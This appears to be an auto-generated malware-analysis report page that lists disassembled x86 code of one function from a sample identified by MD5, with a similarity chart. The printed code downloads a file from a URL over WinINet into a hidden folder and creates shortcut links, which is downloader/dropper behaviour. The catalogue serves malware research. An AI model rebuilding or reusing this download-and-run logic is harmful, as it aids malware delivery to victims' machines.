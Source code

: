 ```yaml
---
layout: post
title:  "fcn.0040128f @ de21a548b66aa6c0b17491b6a31e14fa"
date:   2021-09-10 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0040128f
- **Origin (md5):** de21a548b66aa6c0b17491b6a31e14fa
- **VirusTotal:** [virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>
<span class="tag" id="HTTP">HTTP</span>


# Behaviour Tags
<span class="bhv-tag" id="na">N/A</span>

# Similar Functions
<script type="text/javascript" src="https://www.gstatic.com/charts/loader.js"></script>
<script type="text/javascript">

    google.charts.load('current', {'packages':['corechart']});
    google.charts.setOnLoadCallback(drawChart);

    function drawChart() {
    var data = new google.visualization.DataTable();
        data.addColumn('number', 'X');
        data.addColumn('number', 'Y');
        data.addColumn({type: 'string', role: 'tooltip', 'p': {'html': true}});
        data.addColumn({'type': 'string', 'role': 'style'});
        
        data.addRows([
    [343.09130859375, 39.635101318359375, '<b><a href="/report/fcn.0040128f@de21a548b66aa6c0b17491b6a31e14fa">fcn.0040128f</a><br>@de21a548b66aa6c0b17491b6a31e14fa</b><br>', 'point { fill-color: #e0440e; }'],
[402.1219482421875, -94.0302963256836, '<b><a href="/report/fcn.00401569@de21a548b66aa6c0b17491b6a31e14fa">fcn.00401569</a><br>@de21a548b66aa6c0b17491b6a31e14fa</b><br>', 'null'],
[256.8486633300781, -78.3194808959961, '<b><a href="/report/fcn.00402b1c@6c5b0418e4a4c57d99cda47d2717045d">fcn.00402b1c</a><br>@6c5b0418e4a4c57d99cda47d2717045d</b><br>', 'null'],

        ]);

    var options = {
        title: 'Similarity Plot',
        legend: 'none',
        colors: ['#dedbd9', '#e6693e', '#ec8f6e', '#f3b49f', '#f6c7b6'],
        tooltip: {isHtml: true, trigger: 'both'},
        explorer: {
        actions: ["dragToZoom", "rightClickToReset"],
        },
        chartArea: {
        width: '80%',
        height: '80%'
        },
        width: '100%',
        height: '100%'
    };

    var chart = new google.visualization.ScatterChart(document.getElementById('chart_div'));

    chart.draw(data, options);
    }
    
</script>


<div id="chart_div" style="width: 100%px; height: 100%;"></div>

# Disassembled Code
{% highlight nasm %}

jmp 0x40469c
push ebp
lea ebp, [esp-0x20c]
sub esp, 0x20c
push 0xffffffffffffffff
push 0x43a28f
mov eax, dword
push eax
mov eax, 0x402c
call fcn.0040cf10
mov eax, dword[0x4481b0]
xor eax, ebp
mov dword[ebp+0x208], eax
push ebx
push esi
push edi
push eax
lea eax, [ebp-0xc]
mov dword
mov eax, dword[ebp+0x214]
mov ecx, dword[eax-0xc]
xor ebx, ebx
cmp ecx, ebx
mov dword[ebp-4], 4
jne 0x404739
lea ecx, [eax-0x10]
call fcn.00401050
mov ecx, dword[ebp+0x218]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x21c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x220]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x224]
add ecx, 0xfffffff0
call fcn.00401050
xor eax, eax
jmp 0x404b75
push eax
lea eax, [ebp-0x38]
push eax
call fcn.0040145b
pop ecx
pop ecx
push 0x4498ac
lea ecx, [ebp-0x14]
mov byte[ebp-4], 5
call fcn.004014a1
lea eax, [ebp-0x1c]
push eax
mov byte[ebp-4], 6
call fcn.00401483
pop ecx
push eax
lea ecx, [ebp-0x14]
mov byte[ebp-4], 7
call fcn.00401069
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
mov byte[ebp-4], 6
call fcn.00401050
mov esi, 0x104
push esi
lea ecx, [ebp-0x14]
call fcn.00401393
push eax
call dword[sym.imp.SHLWAPI.dll_PathRemoveFileSpecW]
push 0xffffffffffffffff
lea ecx, [ebp-0x14]
call fcn.00401532
push str.Episode
push esi
lea ecx, [ebp-0x14]
call fcn.00401393
mov edi, dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call edi
push 0xffffffffffffffff
lea ecx, [ebp-0x14]
call fcn.00401532
push dword[ebp-0x14]
call dword[sym.imp.SHLWAPI.dll_PathFileExistsW]
test eax, eax
jne 0x4047ef
push ebx
push dword[ebp-0x14]
push ebx
call dword[sym.imp.SHELL32.dll_SHCreateDirectoryExW]
push dword[ebp-0x14]
call fcn.0040170d
pop ecx
push 0x80
push dword[ebp-0x14]
call dword[sym.imp.KERNEL32.dll_SetFileAttributesW]
lea eax, [ebp-0x14]
push eax
lea ecx, [ebp-0x18]
call fcn.004010be
push dword[ebp+0x21c]
lea ecx, [ebp-0x18]
push esi
mov byte[ebp-4], 8
call fcn.00401393
push eax
call edi
push 0xffffffffffffffff
lea ecx, [ebp-0x18]
call fcn.00401532
lea eax, [ebp-0x14]
push eax
lea ecx, [ebp-0x24]
call fcn.004010be
push str._bind_777
lea eax, [ebp+0x220]
push eax
lea eax, [ebp-0x1c]
push eax
mov byte[ebp-4], 9
call fcn.00401005
add esp, 0xc
push dword[eax]
lea ecx, [ebp-0x24]
push esi
mov byte[ebp-4], 0xa
call fcn.00401393
push eax
call edi
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
mov byte[ebp-4], 9
call fcn.00401050
push 0xffffffffffffffff
lea ecx, [ebp-0x24]
call fcn.00401532
push str..url
lea ecx, [ebp-0x24]
call fcn.004013ed
push dword[ebp-0x18]
mov esi, dword[sym.imp.KERNEL32.dll_DeleteFileW]
mov byte[ebp-0xd], bl
call esi
push ebx
push ebx
push ebx
push ebx
push str.DownlaodAndCreateLink
call dword[sym.imp.WININET.dll_InternetOpenW]
cmp eax, ebx
mov dword[ebp-0x30], eax
je 0x4049c3
push ebx
push 0x80000000
push ebx
push ebx
push dword[ebp+0x214]
push eax
call dword[sym.imp.WININET.dll_InternetOpenUrlW]
cmp eax, ebx
mov dword[ebp-0x20], eax
je 0x4049a9
mov edi, dword[sym.imp.WININET.dll_HttpQueryInfoW]
push ebx
lea ecx, [ebp-0x34]
push ecx
lea ecx, [ebp-0x1c]
push ecx
push 0x20000005
push eax
mov dword[ebp-0x1c], ebx
mov dword[ebp-0x34], 4
call edi
test eax, eax
jne 0x4048f7
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:HttpQueryInfo_Error.
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
push ebx
lea eax, [ebp-0x34]
push eax
lea eax, [ebp-0x2c]
push eax
push 0x20000013
push dword[ebp-0x20]
mov dword[ebp-0x2c], ebx
call edi
test eax, eax
jne 0x404915
mov byte[ebp-0xd], 1
cmp dword[ebp-0x2c], 0xc8
je 0x404922
mov byte[ebp-0xd], 1
cmp byte[ebp-0xd], bl
jne 0x40499e
cmp dword[ebp-0x1c], ebx
je 0x40499e
push 0x43f974
push dword[ebp-0x18]
call fcn.0040cea7
mov edi, eax
cmp edi, ebx
pop ecx
pop ecx
jne 0x404952
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:File_Create_Error
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
jmp 0x40499e
mov dword[ebp-0x28], ebx
lea eax, [ebp-0x28]
push eax
push 0x4000
lea eax, [ebp-0x4038]
push eax
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetReadFile]
cmp eax, ebx
je 0x404993
cmp dword[ebp-0x28], ebx
je 0x404997
push edi
push dword[ebp-0x28]
lea eax, [ebp-0x4038]
push 1
push eax
call fcn.0040cd5f
add esp, 0x10
cmp dword[ebp-0x28], ebx
jne 0x404955
jmp 0x404997
mov byte[ebp-0xd], 1
push edi
call fcn.0040cb84
pop ecx
push dword[ebp-0x20]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x4049b8
push str._Statistics::DownlaodAndCreateLink__DownlaodAndRun:InternetOpenUrl_Error
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
push dword[ebp-0x30]
call dword[sym.imp.WININET.dll_InternetCloseHandle]
jmp 0x4049d2
push 0x43fa60
call dword[sym.imp.KERNEL32.dll_OutputDebugStringW]
mov byte[ebp-0xd], 1
cmp byte[ebp-0xd], bl
mov edi, dword[ebp-0x24]
jne 0x404afe
push ebx
call dword[sym.imp.ole32.dll_CoInitialize]
cmp eax, ebx
jge 0x404a22
mov ecx, edi
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x18]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x14]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x38]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x214]
add ecx, 0xfffffff0
jmp 0x4046f5
push edi
call esi
push dword[ebp+0x224]
push dword[ebp+0x218]
push dword[ebp-0x18]
push edi
call fcn.0040156e
add esp, 0x10
cmp eax, ebx
je 0x404af3
lea eax, [ebp]
push eax
call fcn.00401429
pop ecx
lea eax, [ebp]
push eax
lea ecx, [ebp-0x2c]
call fcn.004013e8
push 0x43fa5c
push eax
lea eax, [ebp-0x1c]
push eax
mov byte[ebp-4], 0xb
call fcn.00401005
lea ecx, [ebp+0x220]
push ecx
push eax
lea eax, [ebp-0x30]
push eax
mov byte[ebp-4], 0xc
call fcn.004013a2
push str..lnk
push eax
lea eax, [ebp-0x20]
push eax
mov byte[ebp-4], 0xd
call fcn.00401005
add esp, 0x24
mov ecx, dword[ebp-0x30]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x1c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x2c]
add ecx, 0xfffffff0
mov byte[ebp-4], 0x11
call fcn.00401050
push dword[ebp-0x20]
call esi
push ebx
push dword[ebp+0x224]
push edi
push dword[ebp-0x18]
push ebx
push dword[ebp-0x20]
call fcn.00401357
add esp, 0x18
test eax, eax
jne 0x404ae6
push dword[ebp-0x18]
call esi
push edi
call esi
mov ecx, dword[ebp-0x20]
add ecx, 0xfffffff0
call fcn.00401050
jmp 0x404af8
push dword[ebp-0x18]
call esi
call dword[sym.imp.ole32.dll_CoUninitialize]
lea ecx, [edi-0x10]
call fcn.00401050
mov ecx, dword[ebp-0x18]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x14]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp-0x38]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x214]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x218]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x21c]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x220]
add ecx, 0xfffffff0
call fcn.00401050
mov ecx, dword[ebp+0x224]
add ecx, 0xfffffff0
call fcn.00401050
xor eax, eax
cmp byte[ebp-0xd], bl
sete al
mov ecx, dword[ebp-0xc]
mov dword
pop ecx
pop edi
pop esi
pop ebx
mov ecx, dword[ebp+0x208]
xor ecx, ebp
call fcn.0040b32a
add ebp, 0x20c
leave
ret 0x14

{% endhighlight %}

[virustotal_ref]: https://www.virustotal.com/gui/file/de21a548b66aa6c0b17491b6a31e14fa